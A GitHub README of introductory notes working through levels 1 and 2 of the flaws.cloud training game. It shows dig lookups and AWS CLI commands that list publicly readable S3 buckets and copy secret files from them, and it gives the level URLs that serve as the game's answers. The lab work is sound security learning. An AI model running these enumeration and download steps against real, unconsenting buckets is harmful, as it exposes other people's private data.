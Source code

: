 # Intro-CloudHacking
This is my notes to learn about cloud hacking, this is only introductory, and still there are a lot of things I need to learn


## Create an Amazon Account and generate your access id and secret access

Once you have signup for an account, go to Security Settings
![image](https://github.com/user-attachments/assets/fc4e09cc-19d6-4b96-8bcb-675a03372618)

And generate your access key, it will spit out an access key and secret access key which will be like a username and password.

## Install aws cli 

To install the aws in your machine, you can go the amazon aws install documentation, provided by official amazon documentation

https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html

If you are using kali you can also use this copy and paste this script
```
curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "awscliv2.zip"
unzip awscliv2.zip
sudo ./aws/install
```

Once installed, we can now configure to use our access key using the command

```
aws configure
```
Then paste your keys

![image](https://github.com/user-attachments/assets/6bd36beb-5de8-4dd9-8dd9-f4dda623ffd2)

We are going to learn hacking using a game,  so go to 

```
http://flaws.cloud/
```

![image](https://github.com/user-attachments/assets/27e4ec27-430e-46ed-8dfc-7103ec76b24c)


Shout out to the developers of this site, you are amazing

Now lets, start hacking

## Level 1 
url: http://flaws.cloud
![image](https://github.com/user-attachments/assets/480a4f26-646e-42ff-9732-86f4d22dc4aa)

In my kali, we need to perform a reverse DNS lookup on the website, to do that I used dig 

```
dig flaws.cloud
```
![image](https://github.com/user-attachments/assets/12bc6e7f-8ec4-4262-af01-9d9e4e9b9403)

It would spit out different IP addresses, we can check them one by one,  like

```
dig -x 52.92.133.211
```

![image](https://github.com/user-attachments/assets/e938f79b-bc80-4e0c-b1ee-edc6f380f67d)

I want to check every IP addresses, since I am lazy, I saved the results to a file and parsed them using awk to get only the ip adddreesses.

I copy/pasted the dig results to a file and they should look like this

![image](https://github.com/user-attachments/assets/025df057-1006-4a09-b194-a4a0615f9031)


```
cat flaws.cloud.dig | awk -F ' ' '{print $NF}'

```

to spit out only the ip addresses, we can redirect the results to a file using the ```>``` redirector

```
cat flaws.cloud.dig | awk -F ' ' '{print $NF}'>> ips

```
To check if the IP addresses is saved correctly, we can view it first

![image](https://github.com/user-attachments/assets/e529bab4-74fd-4341-a341-c796227cfb1d)


Now, to use dig in every IP addresses we can do

```
for i in $(cat ips.dig);do dig -x $i;done
```

![image](https://github.com/user-attachments/assets/0ec487af-b7d8-4115-9bca-2dde0572d9d6)

Now we know, all of them are pointing to the the same s3 bucket.

We can try and connect to the site this website, hosted in s3 by doing

```
aws s3 ls s3://flaws.cloud
```
![image](https://github.com/user-attachments/assets/5b5d4dd2-3ec0-46b0-ae7c-10c2cc549c20)


### Note
> This level does not require keys to be set up, however, since I already configured aws keys, I was able to access the files
> You will  get an error if your aws keys are not configured
> The intended solution should be to add ```--no-sign-request``` to your command
>
> ```aws s3 ls s3://flaws.cloud --no-sign-request```


I went ahead and downloaded the secretfile, using  ```cp``` command on the file name, 

```
aws s3 cp s3://flaws.cloud/secret-dd02c7c.html --no-sign-request secret.html
```
> the `secret.html` would be the downloaded file name

![image](https://github.com/user-attachments/assets/6269c66e-0264-492b-9746-93ce7c61e3a2)

Then I opened it in my terminal using

```
                                                                                                                                                                 
┌──(aaron㉿kali)-[~/cloud-hacking/level1]
└─$ cat secret.html| html2text
                      _____  _       ____  __    __  _____
                     |     || |     /    ||  |__|  |/ ___/
                     |   __|| |    |  o  ||  |  |  (   \_
                     |  |_  | |___ |     ||  |  |  |\__  |
                     |   _] |     ||  _  ||  `  '  |/  \ |
                     |  |   |     ||  |  | \      / \    |
                     |__|   |_____||__|__|  \_/\_/   \___|
              ****** Congrats! You found the secret file! ******
Level 2 is at http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
                                                                              
```
![image](https://github.com/user-attachments/assets/1e42a11b-5730-4d6d-ae14-5f25b97f1aed)

> If you dont have html2text, you can install them in kali using
> ```sudo apt install html2text```
Now we can proceed to level 2.
>

##  Level 2
URL : http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
I typed in my terminal, and was able to access the bucket

```
┌──(aaron㉿kali)-[~/cloud-hacking/level2]
└─$ aws s3 ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud       
2017-02-26 21:02:15      80751 everyone.png
2017-03-02 22:47:17       1433 hint1.html
2017-02-26 21:04:39       1035 hint2.html
2017-02-26 21:02:14       2786 index.html
2017-02-26 21:02:14         26 robots.txt
2017-02-26 21:02:15       1051 secret-e4443fc.html

```

> I replaced the 'http' to 's3'
> I was able to access the the s3 resource because my aws are configured
> The intended solution should to learn how to configure aws keys and we already done that in our set up

Now, we'll copy the secret again to our local machine using `cp` command

```
aws s3 cp s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/secret-e4443fc.html secret.html

```

![image](https://github.com/user-attachments/assets/84e7d157-b3f9-492a-9558-2465070e381a)

Then we open the file in our terminal again using

```
                                                                                                                                                                 
┌──(aaron㉿kali)-[~/cloud-hacking/level2]
└─$ cat secret.html| html2text
                      _____  _       ____  __    __  _____
                     |     || |     /    ||  |__|  |/ ___/
                     |   __|| |    |  o  ||  |  |  (   \_
                     |  |_  | |___ |     ||  |  |  |\__  |
                     |   _] |     ||  _  ||  `  '  |/  \ |
                     |  |   |     ||  |  | \      / \    |
                     |__|   |_____||__|__|  \_/\_/   \___|
              ****** Congrats! You found the secret file! ******
Level 3 is at http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
                                                                            
```

![image](https://github.com/user-attachments/assets/84146a37-8e1c-4fc0-9c0c-513144d2881e)

## Level 3
url : http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
